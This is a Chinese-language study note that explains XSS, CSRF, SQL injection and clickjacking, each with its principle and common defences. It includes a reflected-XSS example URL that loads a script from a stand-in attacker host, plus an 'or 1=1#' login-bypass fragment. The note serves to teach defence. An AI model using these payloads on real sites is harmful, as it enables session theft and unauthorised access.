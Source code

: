 ### 1. XSS(Cross-site scripting：跨站脚本攻击)

向用户页面中注入恶意的脚本代码，获取敏感信息。

#### 类型

1.  储存型

- 一些恶意的输入如通过评论、富文本、表单等 或其他方式提交保存到服务器，等其他用户获取这些输入时就会执行恶意代码。

- 解决方式：对用户的输入进行转译如 `script标签、引号，尖括号，斜杠`，

2. 反射型

- 攻击者诱导用户点击恶意的链接，在 url 参数中会拼接恶意代码。网站服务器端将恶意代码从 URL 取出，拼接在 HTML 返回给浏览器。如`http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"
`

- 解决方式: 对请求参数就行检查

3. DOM 型

- DOM 型 XSS 攻击，实际上就是前端 javascript 代码不够严谨，把不可信的内容插入到了页面，在使用.innerHTML、.outerHTML、.appendChild、document.write()等 API 时要特别小心，不要把不可信的数据作为 HTML 插入到页面上

### 2. CSRF(跨站请求伪造)

#### 原理：

用户先登陆 a 网站生成登陆 cookie，攻击者会引导用户进入另一个 b 网站，在这个网站中会向 a 网站的服务器发送恶意请求。因为在发送恶意请求时浏览器会自动带上 a 网站的 cookie，冒充用户。

#### 解决方式：

1. 验证请求头中的`Origin` 和 `Referer`。
2. 每次请求携带 Token。
3. SameSite Cookies 它有 Strict（浏览器将只发送相同站点（完全一致）请求的 Cookie）、Lax（第三方 get 方法可以携带 Cookie） 和 None （任何情况下都会发送 Cookie）三个值。

### SQL 注入

#### 原理：

服务端在执行 sql 操作时，可能会拼接前端传入的参数，这就会将一些 sql 注入的 sql 拼接起来，导致一些预期之外的操作。例如用户登陆输入密码写成 `or 1=1#`就会执行这个操作

#### 解决方式：

1. 对用户输入进行检验

### 点击劫持

#### 原理：

攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击

#### 解决方式：

X-FRAME-OPTIONS 是一个 HTTP 响应头，在现代浏览器有一个很好的支持。这个 HTTP 响应头 就是为了防御用 iframe 嵌套的点击劫持攻击。
该响应头有三个值可选，分别是

DENY，表示页面不允许通过 iframe 的方式展示
SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
